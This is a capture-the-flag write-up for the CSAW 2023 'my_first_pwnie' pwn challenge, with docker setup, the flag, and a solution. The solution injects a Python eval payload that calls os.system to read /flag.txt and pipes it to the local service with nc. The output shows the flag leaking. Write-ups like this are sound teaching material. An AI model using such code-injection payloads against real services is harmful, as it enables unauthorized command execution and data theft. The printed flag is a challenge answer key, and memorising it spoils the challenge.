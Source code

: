 # my_first_pwnie

- source code: [CSAW-CTF-2023-Quals/pwn/my_first_pwnie at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/pwn/my_first_pwnie)

## Setup

```bash
docker build -t csaw23/my_first_pwnie .
docker run --rm -p 31137:31137 csaw23/my_first_pwnie
```

## Flag

csawctf{neigh______}

## Solution

Input `eval("__import__('os').system('cat /flag.txt')")`.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/my_first_pwnie# echo $'eval("__import__(\'os\').system(\'cat /flag.txt\')")' | nc localhost 31137
What's the password? csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

## References

- [Bypass Python sandboxes - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#eval-ing-python-code)
